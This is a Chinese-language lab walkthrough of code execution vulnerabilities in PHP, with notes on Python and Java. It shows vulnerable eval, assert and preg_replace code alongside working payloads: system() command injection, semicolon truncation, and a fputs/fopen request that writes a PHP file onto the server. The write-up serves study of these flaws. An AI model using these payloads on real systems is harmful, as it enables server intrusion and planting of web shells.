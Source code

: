 # 代码执行漏洞

应用需要调用系统函数执行命令时，当用户可以控制输入的参数，则就可能存在代码执行漏洞。

各语言相关函数：

* PHP：eval()、assert()、preg_replace()

* python：exec()、system()
* JAVA：没有类似于前面两者的函数，但是有反射机制，并且有基于反射机制的表达式引擎，如：0GNL、SpEL、MVEL等。



## 示例

来到测试页面进行测试，可以看到在传参的时候，传入了两个参数，其中`m_print()`，是否意味着这是一个函数？

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823083717.png)

那么我们尝试将参数修改为`phpinfo()`看看。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823084028.png)

并且继续尝试执行php的其他系统调用函数看看结果

```
?a=assert&b=eval(pwd)
```

发现浏览器并没有任何输出，很奇怪，那就查看一下源码。

```
<?php
function m_print(){
        echo '这是一个页面';
}
$_GET['a']($_GET['b']);
?>
```

按照代码可以得到的最终执行的代码

```
assert(eval(pwd))
```

而下面这个却可以执行成功。

```
?a=assert&b=system(pwd)
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823205007.png)

暂时还不明所以，先继续测其他漏洞。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823210541.png)

本来是代码执行漏洞的，看了下源码，发现也可以搞个xss攻击（手动😂）。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823210407.png)

回归主题，继续尝试构造代码执行的payload。

```
http://www.webtester.com/code/code02.php?data=system(id)
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823211215.png)

发现并没有出现我们期待的结果，再次查看源码

```
<?php
$data = isset($_GET['data'])?$_GET['data']:'这是一个eval漏洞页面';
@eval($ret = $data);
echo $ret;
?>
```

> 吐槽一刻：真有人能把代码写成这样的吗？

然后发现添加分号`;`产生一个截断之后，就成功了。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823212038.png)

也可以通过代码执行漏洞写入shell脚本文件，先确定路径和文件。

```
$ ll ../upload | grep shell*
-rw-r--r--  1 www-data www-data    18  4月  6  2019 shell.php
```

构造payload

```
?data=fputs(fopen("../upload/shell2.php","a"),"<?php phpinfo();?>");
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823214828.png)

到服务器中查看执行结果

```
$ ll ../upload | grep shell*
-rw-r--r--  1 www-data www-data    18  8月 23 21:48 shell2.php
-rw-r--r--  1 www-data www-data    18  4月  6  2019 shell.php
```

访问页面看看

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823215130.png)

继续下一个页面进行测试

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823213410.png)

发现是把输入的内容输出到了URL上，查看源码。

```
<?php
$data = $_GET['data'];
preg_replace('/<data>(.*)<\/data>/e','$ret ="\\1";',$data);
?>
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823213938.png)

